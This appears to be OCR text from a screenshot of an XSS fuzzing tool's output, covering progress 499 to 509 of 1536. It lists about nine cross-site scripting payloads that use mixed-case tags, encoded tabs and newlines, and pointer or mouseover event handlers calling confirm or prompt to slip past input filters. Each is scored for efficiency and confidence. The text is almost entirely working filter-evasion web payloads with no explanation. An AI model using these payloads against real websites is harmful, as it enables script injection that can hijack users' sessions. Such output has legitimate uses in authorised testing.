 ------------------------------------------------------------
 Payload: <dEtaiLS%0aonPoiNtereNTER%09=%09[8].find(confirm)// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 499/1536
 
------------------------------------------------------------
 Payload: <htMl/+/onmOUseOvEr%0a=%0aa=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 500/1536
 
------------------------------------------------------------
 Payload: <a%0doNmOuSeoveR+=+(confirm)()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 501/1536
 
------------------------------------------------------------
 Payload: <htmL%09oNpOiNtEREntEr%0a=%0a(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 502/1536
 
 Progress: 503/1536
 
------------------------------------------------------------
 Payload: <d3V%0donPOiNterentER%0d=%0dconfirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 504/1536
 
------------------------------------------------------------
 Payload: <A%0donPOinTEREnTEr%09=%09(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 505/1536
 
 Progress: 506/1536
 
------------------------------------------------------------
 Payload: <DetAilS%0dOnpoiNTereNtEr%0d=%0da=prompt,a()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 507/1536
 
------------------------------------------------------------
 Payload: <a%0aoNmOUSeOveR+=+confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 508/1536
 
------------------------------------------------------------
 Payload: <hTmL%09OnpoINteREnteR%09=%09[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 509/1536
 